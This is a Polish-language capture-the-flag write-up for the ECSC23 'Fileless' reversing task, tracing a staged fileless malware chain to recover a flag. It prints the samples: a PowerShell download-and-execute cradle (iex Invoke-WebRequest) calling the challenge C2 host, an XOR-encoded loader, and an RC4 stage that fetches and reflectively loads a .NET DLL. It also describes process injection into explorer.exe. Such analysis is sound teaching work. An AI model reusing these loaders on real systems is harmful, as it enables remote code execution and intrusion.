



# Fileless - re



Dostajemy Windowsowego linka, który odpala Powershella z argumentami:
`-ExecutionPolicy Bypass "$C2='fileless.ecsc23.hack.cert.pl:5060;iex(Invoke-WebRequest \"http://$C2/ywHcw88t9ExkgtCj2lUO\" -UseBasicParsing).Content"`

### First stage

Pierwszy stage znajduje się pod linkiem: `http://fileless.ecsc23.hack.cert.pl:5060/ywHcw88t9ExkgtCj2lUO`

```powershell=
$d=[System.Convert]::FromBase64String("ZnZySlIBYTY7NgQJSzAWSDN0PyEhXDYeHD1vdXIDMicsLUgUDHpHb2Z2fDAXLnA2PCcSTEIeO0M2IE8DIFsDAgM5ZR4lCBc2MkNaC2MIWnJiSHYzXn55cmwDEwMWX1dZempBaxEOYllcaAd6c3JPSldRRkxiIV4Ffxt2PVl+YRRsHTxPQS8oFBh/XgRsfzcZFS5aEmFnU1FTX1djHH4lEm4XASxWEG9ybBE6QC85XxQUAV4QH05pUzYmFzRsC1xMQS1YAW5/SHp0CHY/T3IWB2NmMj9BLS4ZYmhPeXkXASxWE29jbBE6QC05ThQUAV4HHx92JCl+exJzZj5JBxwcQmMJIWdmYAlTOwcZaxsZRSw4TVYCcmwnMj85OxFSchosJy8RBRcBXl8lMB8sNhN6UVJ+YG9sB08jABAxSTM/CWdqdDcDXxldITwnDxBFRjAKGwYvPCdBISsuCkctJCsCODkgHFMyNx8hNkAOKwY1WSombBUcEUZaGWd+MWZiGwkkCylGKiVsIgsLEhZCMwdAdQRBPRowO0EqfnYyEBcNHVdveDw3OnQgEBA4HTh1f0NNTE1aSwIiEzs/OQkkCylGKiVsMwEDCBZTMzMVIWxyIQQXN1AjMR9bXikLElRvARg2NlYJKi9yFG9sEEFMLAoFXyw/VxgnUQASAy9XPDxiQwwREAMKaHVeDHAcHUMEPQU7JRAAXAMrMGkACzJ2FwZwV18PQSoKIxINBjQSQjQzFChrHREYHC5XITxiRS9MTV13Ii4uNjJWelA3dHFoYWwmAREpFkQvNR5nZWARUF56aR0tJA0BBhAaXyl0OCYsVzsZFRxeLi8xPERCNwdRMzMZY2JjJxUeM1FjaAwOCjUREVwuOV1mbHo8AR0xV2dsLBQICUhTayg4ECohRwkqLxoaawtwSE0=")
$k=[System.Text.Encoding]::ASCII.GetBytes("B3RwrZ2OHBadeds0GZzO")
[byte[]]$b=$d|%{$_-bxor$k[$i++%$k.length]}
iex ([System.Text.Encoding]::UTF8.GetString($b))
```

Po wklejeniu wszystkiego, oprócz Invoke-Expression call'a, dostajemy kolejny stage. 

### Second stage

```powershell=
$E = [System.Text.Encoding]::ASCII;$K = $E.GetBytes('zHsqz5LbhQuqcWQmJvRW');$R = {$D,$K=$Args;$i=0;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Length])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}}
if ((compare-object (& $R $E.GetBytes((Get-Content "C:\\Users\\Public\\Documents\\token.txt")) $K) ([System.Convert]::FromBase64String("FxxGrgbb/w==")))){Exit}
[System.Reflection.Assembly]::Load([byte[]](& $R (Invoke-WebRequest "http://$C2/O4vg7tmRa8fOCYGQH9U5" -UseBasicParsing).Content $K)).GetType('E.C').GetMethod('SC', [Reflection.BindingFlags] 'Static, Public, NonPublic').Invoke($null, [object[]]@($C2))
```

W drugim etapie jest logika do sprawdzania czy w pliku `C:\\Users\\Public\\Documents\\token.txt` jest poprawny token. Można go dostać przez wykonanie:
```powershell=
PS /> [System.Text.Encoding]::UTF8.GetString((& $R ([System.Convert]::FromBase64String("FxxGrgbb/w==")) $K))
Boz3nka
```

Potem skrypt ładuje i uruchamia funkcję `E.C.SC` z dotNet'owego DLL'a pobieranego z `http://fileless.ecsc23.hack.cert.pl:5060/O4vg7tmRa8fOCYGQH9U5`

### Third stage

Dostajemy dotNetowego DLL'a, który tym razem sprawdza content `C:\\Users\\Public\\Documents\\credentials.txt`, pobiera następny stage i go injectuje do `explorer.exe`. Aby dostać `credentials.txt` wystarczyło w DLSpy zpatchować funkcję i zapisać do pliku result funkcji `C.Bop` (`coZR0B1sz`). Path'a następnego stage'a dostajemy w podobny sposób, tylko zamiast zapisywać go do pliku, możemy wyprintować do stdout'a.



### Fourth stage

Następny plik (`http://fileless.ecsc23.hack.cert.pl:5060/dlg8wZKFhAl7sDCKNBCZ`) jest binarką, która jest injectowana do innego procesu. Binary Ninja fajnie sobie poradził z jego dekompilacją, po paru chwilach można zobaczyć funkcję która sprawdza zawartość `C:\\Users\\Public\\Documents\\wallet.txt`. 



Po oczyszczeniu funkcji widać, że string `xk7k~>u7KZ^` jest przesunięty o `0xa` w prawo. Używając Pythona można szybko dostać ostatnią część flagi.

```python-repl=
>>> "".join([chr(ord(a) - 0xa) for a in "xk7k~>u7KZ^"])
'na-at4k-APT'
```

Flag: `ecsc23{Boz3nka-coZR0b1sz-na-at4k-APT}`
